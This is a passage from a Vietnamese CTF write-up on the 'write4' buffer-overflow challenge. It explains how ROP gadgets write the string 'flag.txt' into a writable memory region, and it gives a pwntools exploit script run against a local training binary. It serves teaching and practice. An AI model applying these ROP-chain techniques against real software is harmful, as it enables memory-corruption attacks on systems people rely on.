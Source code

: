 ```python=
p.sendlineafter(b'> ', payload)

p.interactive()
```

# **Write4**

### Phân tích
- Giống các challeng trước cũng là lỗi `Buffer Overflow` và chế độ bảo vệ cũng giống các challenge trước
- Challenge này nhiệm vụ tương tự các challenge trước là đưa tham số `flag.txt` vào hàm `printf_file` để có thể in ra được flag, nhưng trong challenge này thì chuỗi `flag.txt` không có sẵn trong tệp nhị phân nên ta cần nhập và đưa tệp này vào `rdi` trước khi gọi `printf_file`
- Nhưng `rdi` không chứa trực tiếp chuỗi `flag.txt` mà là một con trỏ trỏ đến chuỗi đó
- Ta sẽ tận dụng các gadgets có trong tệp nhị phân để hoàn thành mục tiêu này. Sau khi tìm kiếm, thì nhìn thấy được 2 gadget rất hữu ích có thể khai thác
`0x0000000000400628 : mov qword ptr [r14], r15 ; ret` 
và
`0x0000000000400690 : pop r14 ; pop r15 ; ret`
- Gadget `mov qword ptr [r14], r15 ; ret` là đưa giá trị của `r15` vào địa chỉ đang trỏ tới của `r14` nên bây giờ ta cần đưa chuỗi `flag.txt` vào `r15` và gadget `pop r14 ; pop r15 ; ret` có thể giúp ta làm điều đó
> *Nhưng ta cần đưa chuỗi `flag.txt` vào `rdi` chứ không phải `r14`?*
- Điều ta cần là đưa chuỗi vào `rdi` nhưng lại không tìm thấy gadget `mov rdi, r14`. Ý tưởng ở đây là ta sẽ dùng một địa chỉ cho phép ghi của chương trình để ghi chuỗi này vào địa chỉ đó và gán địa chỉ này vào `rdi` bằng gadget `pop rdi, ret`
![image](https://hackmd.io/_uploads/rkNq3pu40.png)
- Ta `vmmap` để xem khoảng địa chỉ tĩnh cho phép đọc ghi của chương trình
![image](https://hackmd.io/_uploads/HyryrvY4C.png)
- khoảng địa chỉ từ `0x601000` đến `0x602000` cho phép ta ghi và đọc, lấy ngẫu nhiên 1 địa chỉ để ghi chuỗi vào
- Tương tự ta tìm thấy địa chỉ gọi hàm `printf_file` trong hàm `usefulFunction`
![image](https://hackmd.io/_uploads/S17l66_ER.png)
- Ofset: 40 byte
 

---

### Script
```python=
from pwn import *

p = process('./write4')

printf_add = 0x00400620
pop_rdi = 0x0000000000400693
mov_r14_r15 = 0x0000000000400628
pop_r14_r15 = 0x0000000000400690
rw_add = 0x601100

payload = b'A'*40
payload += p64(pop_rdi) + p64(rw_add) + p64(pop_r14_r15) + p64(rw_add) + b'flag.txt' + p64(mov_r14_r15) + p64(printf_add) 

p.sendlineafter(b'> ', payload)

p.interactive()
```
# **Badchars**